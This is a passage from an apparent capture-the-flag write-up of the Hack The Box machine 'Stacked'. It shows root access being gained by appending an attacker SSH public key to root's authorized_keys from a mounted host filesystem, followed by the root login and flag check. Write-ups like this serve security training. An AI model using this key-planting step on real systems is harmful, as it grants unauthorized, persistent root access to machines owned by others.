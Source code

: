 ```
/host/root # echo 'ssh-rsa AAAAB3Nz...[snip]...QmVKMHCEU=' >> .ssh/authorized_keys
```

With this we can now ssh into host machine as the root user and add the flag to our collection.

```
$ssh -i root root@stacked.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 19 Sep 11:54:00 UTC 2021

  System load:              0.0
  Usage of /:               89.0% of 7.32GB
  Memory usage:             36%
  Swap usage:               0%
  Processes:                282
  Users logged in:          1
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for ens160:  10.129.223.207
  IPv6 address for ens160:  dead:beef::250:56ff:feb9:636d

  => / is using 89.0% of 7.32GB
  => There is 1 zombie process.


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Sep 19 09:42:03 2021 from 10.10.14.70
root@stacked:~# wc -c /root/root.txt
33 /root/root.txt
```
